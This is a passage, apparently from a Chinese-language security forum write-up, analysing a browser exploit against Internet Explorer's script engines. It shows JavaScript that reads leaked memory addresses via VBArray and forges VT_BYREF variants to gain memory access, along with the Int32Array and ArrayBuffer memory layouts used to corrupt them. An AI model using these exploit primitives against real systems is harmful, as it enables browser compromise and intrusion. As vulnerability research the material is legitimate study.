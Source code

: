 ![](https://bbs.pediy.com/upload/tmp/893960_XEH4Z2MQ5JNQ5AS.png)

 

再次将这些内存地址读取至 bufArr[i] 中, 取出 fakeBuf 属性

```
ref = new VBArray(hd0.nodeValue);
for (var i = 0; i < 0x10; i++) {
    bufArr[i] = ref.getItem(i + 1);
}
ref = null;
setData(1, new Data(VT_BYREF | VT_I4, bufArr[4]));
setData(2, new Data(VT_BYREF | VT_I4, bufArr[4] + 0x04));
setData(3, new Data(VT_BYREF | VT_I4, bufArr[4] + 0x1c));
flush();

```

Int32Array,ArrayBuffer 内存结构参考, 64 位下有所差别

```
Struct Int32Array     allocated at Custom Heap
{
    void* pvftable;
    DOWRD var_2;
    DOWRD var_3;
    DOWRD var_4;
    DOWRD var_5;
    DOWRD var_6;
    DOWRD size;            //条目的个数，字节数等于这项的值*4
    void* pTypeArrayData;  //Arraybuffer Data
    void* pArrayBuffer;   //Arraybuffer Object
    DWORD var_10;
    DWORD var_11;
    DWORD var_12;
}
Struct ArrayBuffer      allocated at Custom Heap
{
    void* pvftable;
    DOWRD var_2;
    DOWRD var_3;
    DOWRD var_4;
    void* pTypeArrayData;       //Arraybuffer Data
    DWORD size;                 //array bytes
    DWORD var_10;
    DWORD var_11;
}

```

这里对 ArrayBuffer 做了封装, 外层是 JavaScriptDispatch 对象

 

![](https://bbs.pediy.com/upload/tmp/893960_EU34C4UUN7PDFYN.png)
